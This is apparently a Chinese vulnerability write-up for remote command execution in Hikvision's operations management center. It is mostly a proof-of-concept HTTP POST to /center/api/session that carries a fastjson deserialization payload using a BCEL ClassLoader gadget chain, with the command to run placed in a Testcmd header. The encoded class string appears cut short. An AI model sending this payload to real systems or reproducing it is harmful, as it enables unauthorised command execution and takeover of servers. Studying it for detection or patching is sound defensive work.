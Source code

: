 # 海康威视运行管理中心远程命令执行漏洞

**漏洞介绍**

海康运行管理中心/center/api/session存在远程命令执行漏洞，系统使用**低版本的fastjson**，且由于存在相关依赖，即使服务器不出网无法远程加载恶意类也可通过本地链直接命令执行，从而获取服务器权限。

**影响版本**

海康威视运行管理中心

**漏洞复现**

**POC （POST）**

漏洞复现

```yaml
POST /center/api/session HTTP/1.1
Host: 127.0.0.1
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/json;charset=UTF-8
X-Language-Type: zh_CN
Testcmd: echo mt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X -1_0_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 5778

{"x":{{"@type":"com.alibaba.fastjson.JSONObject","name":{"@type":"java.lang.Class","val":"org.apache.ibatis.datasource.unpooled.UnpooledDataSource"},"c":{"@type":"org.apache.ibatis.datasource.unpooled.UnpooledDataSource","key":{"@type":"java.lang.Class","val":"com.sun.org.apache.bcel.internal.util.ClassLoader"},"driverClassLoader":{"@type":"com.sun.org.apache.bcel.internal.util.ClassLoader"},"driver":"$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$a5Wyx$Ug$Z$ff$cd$5e3$3b$99$90"}}:"a"}}

```

执行echo 命令回显测试